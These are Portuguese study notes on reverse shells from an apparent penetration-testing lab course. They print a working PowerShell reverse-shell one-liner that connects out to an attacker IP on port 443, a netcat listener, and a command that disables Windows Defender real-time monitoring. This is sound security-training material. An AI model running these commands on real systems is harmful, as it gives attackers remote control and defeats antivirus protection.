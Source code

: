 Com um `reverse shell`, a caixa de ataque terá um ouvinte em execução, e o alvo precisará iniciar a conexão.

#### Exemplo de shell reverso
![[Pasted image 20240828100511.png]]

Este texto explica que o uso de *reverse shells* é uma técnica comum em testes de penetração porque as conexões de saída são menos propensas a serem bloqueadas por firewalls, aumentando as chances de passar despercebido. Ao contrário do *bind shell*, que depende de conexões de entrada, o *reverse shell* faz com que a máquina alvo inicie a conexão com a máquina do atacante, invertendo os papéis de servidor e cliente.

Ferramentas como a *Reverse Shell Cheat Sheet* fornecem comandos e códigos pré-criados que podem ser utilizados para criar esses *shells*, mas é importante estar ciente de que administradores de sistemas também conhecem esses recursos, o que pode exigir a personalização dos ataques. A prática é essencial para entender e aplicar esses conceitos em situações reais.

## Prática com um shell reverso simples no Windows

Com este passo a passo, estabeleceremos um shell reverso simples usando algum código PowerShell em um alvo Windows. Vamos iniciar o alvo e começar.

Podemos iniciar um ouvinte Netcat em nossa caixa de ataque quando o alvo aparecer.

#### Servidor ( `attack box`)
```shell-session
NycolasES6@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

Desta vez, com nosso ouvinte, estamos vinculando-o a uma [porta comum](https://web.mit.edu/rhel-doc/4/RH-DOCS/rhel-sg-en-4/ch-ports.html) ( `443`), essa porta geralmente é para `HTTPS`conexões. Podemos querer usar portas comuns como essa porque, quando iniciamos a conexão com nosso ouvinte, queremos garantir que ela não seja bloqueada na saída pelo firewall do sistema operacional e no nível da rede.

Um firewall capaz de inspeção profunda de pacotes e visibilidade da Camada 7 pode ser capaz de detectar e interromper um shell reverso saindo em uma porta comum porque está examinando o conteúdo dos pacotes de rede, não apenas o endereço IP e a porta.

Depois que o destino do Windows for gerado, vamos nos conectar usando RDP. O Netcat não é nativo dos sistemas Windows, então pode ser pouco confiável contar com ele como nossa ferramenta no lado do Windows.

Dito isso, é ideal usar quaisquer ferramentas que sejam nativas (vivendo da terra) para o alvo ao qual estamos tentando obter acesso.

`What applications and shell languages are hosted on the target?`

Esta é uma excelente pergunta a ser feita sempre que estivermos tentando estabelecer um shell reverso. Vamos usar o prompt de comando e o PowerShell para estabelecer este shell reverso simples. Podemos usar um shell reverso padrão do PowerShell em uma linha para ilustrar este ponto.

No destino do Windows, abra um prompt de comando e copie e cole este comando:

```cmd-session
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Considere o que precisamos mudar para que isso nos permita estabelecer um shell reverso com nossa caixa de ataque. Este código do PowerShell também pode ser chamado de ``shell code`` ou nosso ``payload``. Entregar esta carga útil no sistema Windows foi bem direto, considerando que temos controle total do alvo para fins de demonstração. Conforme este módulo avança, notamos que a dificuldade aumenta em como entregamos a carga útil aos alvos.

`What happened when we hit enter in command prompt?`

#### Cliente (alvo)
```cmd-session
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

O software `Windows Defender antivirus`( `AV`) interrompeu a execução do código. Isso está funcionando exatamente como pretendido e, de uma `defensive`perspectiva, isso é um `win`. De um ponto de vista ofensivo, há alguns obstáculos a serem superados se o AV estiver habilitado em um sistema com o qual estamos tentando nos conectar.

Para nossos propósitos, desejaremos desabilitar o antivírus por meio do `Virus & threat protection settings`ou usando este comando em um console administrativo do PowerShell (clique com o botão direito, execute como administrador):

#### Desativar AV
```powershell-session
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

#### Servidor (caixa de ataque)
```shell-session
NycolasES6@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student
```

De volta à nossa caixa de ataque, devemos notar que estabelecemos com sucesso um shell reverso. Podemos ver isso pela mudança no prompt que começa com `PS`e nossa capacidade de interagir com o SO e o sistema de arquivos. Tente executar alguns comandos padrão do Windows para praticar um pouco.









